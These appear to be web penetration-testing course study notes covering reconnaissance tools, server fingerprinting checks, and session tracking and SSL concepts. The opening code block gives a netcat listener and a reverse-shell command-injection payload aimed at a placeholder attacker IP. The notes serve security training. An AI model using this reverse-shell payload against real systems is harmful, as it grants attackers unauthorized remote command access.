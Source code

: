 ```
nc –lvvnp <random port> and do command injection using:

nc <hacker ip> <random port> -e /bin/bash
```

Tools

- TestSSL (checks a server&#39;s service on any port for the support of TLS/SSL ciphers)
- Fierce (DNS scan for IP addresses)
- Nikto (Perl) or Yokoso (check for webserver / app server vulnerabilities)
  - fingerprints using favicon.ico file
- CeWL (builds custom word generator for use of password attacks)
- wget  (dumps the website pages to local (including links with –r option))

Checks

- Server timestamp analysis (Request a resource multiple times to check date &amp; time differences)
- Last modified values comparison (Request a resource multiple times to check HTTP header last-modified value)
- Load balancer cookie detection
- HTTPS differences (Modern-day SSL accelerators prevent this info leak)
- HTML source code discrepancies
- Look for supporting HTTP request methods
  - HTTP Request method: OPTIONS will give this info
  - Netcat to the server can give this info
- Username Harvesting (via error messages, error codes, html hidden codes, etc.)
- txt (show files/directories that don&#39;t show up on a google search)
- Comments that reveal sensitive or useful info
- Commented code &amp; disabled functionality
- Application resource map creation from root node (flow)
  - May be useful for performing authorization bypass attacks
- Load balancer analysis (Check for sticky sessions)
- Software configuration analysis (including app server vulnerability checks)
- Virtual hosting
  - name based virtual hosting:  Multiple names, single IP
  - IP based virtual hosting:  multiple IPs, single server

------


#### Session Tracking and SSL**

Goal: The candidate will demonstrate comprehension of session tracking and SSL/TLS use in modern web communications as well as the attacks that can leverage flaws in session state

- Cookie should have expiration, else it will be deleted when browser closes.
  - Set-Cookie:  Session=xxx; domain=www.sec542.org; secure
- Server side code uses some form of data stored on client side to track sessions
- Session fixation - Could be available in a cookie, URL data, HTTP headers, hidden form fields, etc.
  - Session ID should change after authentication - else it could be hijacked
- Various session identifiers could be used for various resources of the same application, indicating different level of authorization required to access the resource
- Can use Burp Sequencer to explore weaknesses of sessions
- SSL relies on third-party certificate issuers called certificate authorities (CA)
- Tools: Qualys SSL Labs, SSLScan, TestSSL, etc.
